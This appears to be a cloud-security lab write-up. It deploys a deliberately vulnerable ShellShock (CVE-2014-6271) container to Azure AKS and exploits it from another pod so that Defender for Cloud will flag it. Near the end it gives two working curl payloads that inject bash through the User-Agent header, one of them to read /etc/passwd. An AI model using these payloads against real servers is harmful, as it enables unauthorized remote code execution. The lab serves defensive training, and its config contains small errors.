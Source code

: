 # In this lab we will use a ShellShock vulnerable docker image from the Docker Hub, store it in the Azure ACR and from there deploy to Azure AKS

We will exploit Shell-Shock vulnerabilities to execute RCE from an attaker por running in the same cluster

Login to your Azure ACR registry where you will push the vulnerable image

```
docker login [LOGINSERVER] –u [USERNAME] –p [PASSWORD]
```

Download the shellshock container to your local build machine

```
docker pull vulnerables/cve-2014-6271
```

Run the following commands to properly tag your images to match your ACR account name.

```
 docker tag  vulnerables/cve-2014-6271  [ACR-LOGINSERVER]/
 
 ```

 push docker image to ACR

```
 docker push [ACR-LOGINSERVER]/cve-2014-6271
 ```
In the Azure Portal, navigate to your ACR account, and select Repositories under Services on the left-hand menu

Defender for cloud will trigger the scan in the ACR registry to look for vulnerabilities in the image

Now, we will deploy a kubernetes pod using the shell-shock image stored in the ACR

Note we export the pod using the port 8080

As we will connect from another pod in the cluster to exploit RCE vulnerabilities of this container, we need to create a Kubernetes Service and map it to this deployment using match labels

```
apiVersion: v1
kind: Service
metadata:
  name: service-shell-shock
spec:
  type: ClusterIP  # ClusterIP is the default service type even if not specified
  selector:
    tag: shell-shock
  ports:
  - name: port8080
    protocol: TCP
    port: 8080  # this is the service port
    targetPort: 80 # this is the container port
```

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: shell-shock
spec:
  selector:
    matchLabels:
      app: shell-shock
  template:
    metadata:
      labels:
        app: shell-shock # the label for the pods and the deployments
    spec:
      containers:
      - name: shell-shock
        image: k8sgoatacr.azurecr.io/cve-2014-6271:latest # IMPORTANT: update with your own repository
        imagePullPolicy: Always
        ports:
        - containerPort: 8080 
```
Get the pods ip address using 

```
kubectl get pods -o wide
```

Enter into the shell-shock container

```
kubectl exec -it [shell-shock-pod] -- /bin/bash
````

And from the nginx pod in the cluster, we wille exploit RCE

```
kubectl exec -it [name-nginx-attacker-pod] -- /bin/bash
```

From here, issue commands to list /etc/passwd

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://[ip-address-shell-shock-pod]:80/cgi-bin/vulnerable
```
and
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://[ip-address-shell-shock-pod]/cgi-bin/vulnerable
```

Now, wait for Defender to raise a recommendation under the ACR to resolve vulnerabilities found

![container-vul](/images/container-vuln.png)

Also, you may want to use the Cloud Security Explorer with the specific CVE-ID


![container-vuln-cloudsecexplorer](/images/container-vuln-cloud-sec-explorer.png)


